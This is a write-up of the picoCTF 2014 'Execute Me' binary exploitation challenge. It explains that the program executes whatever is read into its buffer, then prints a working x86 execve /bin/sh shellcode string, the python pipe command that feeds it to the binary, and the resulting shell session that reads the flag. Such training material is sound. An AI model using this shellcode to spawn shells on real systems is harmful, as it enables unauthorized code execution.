 # Pico CTF 2014 : Execute Me

**Category:** Binary Exploitation
**Points:** 80
**Description:**

>This program will run whatever you send to it! Try to get the flag! The binary can be found at /home/execute/ on the shell server. The source can be found [here](execute.c).

**Hint:**
>You can get the flag in a number of ways, but the easiest would be to run a shell.

## Write-up

This is a fairly simple problem designed to get you familiar with shellcode.
The source file reveals these lines:
```
read(0, buf, 128);
((function_ptr)buf)()
```

This means that we can send any valid **assembly laguage code** and it willl
run. If we just go online and find shellcode, we can use it here (assuming it's
the correct architecture.) I'll be using my go-to shellcode.
```
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
```

Since some of these characters aren't printable, we'll have to use a medium
such as python to pass the information to the program.

```
/home/execute$ (python -c 'print
"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
';cat )| ./execute
ls
Makefile  execute  execute.c  flag.txt
cat flag.txt
shellcode_is_kinda_cool
```

The last bit with `cat` at the end simply keeps the pipe open so we can
interact with the shell we fork.
## Other write-ups and resources

* <http://ehsandev.com/pico2014/binary_exploitation/execute_me.html>
* <https://ctf-team.vulnhub.com/picoctf-2014-executeme/>
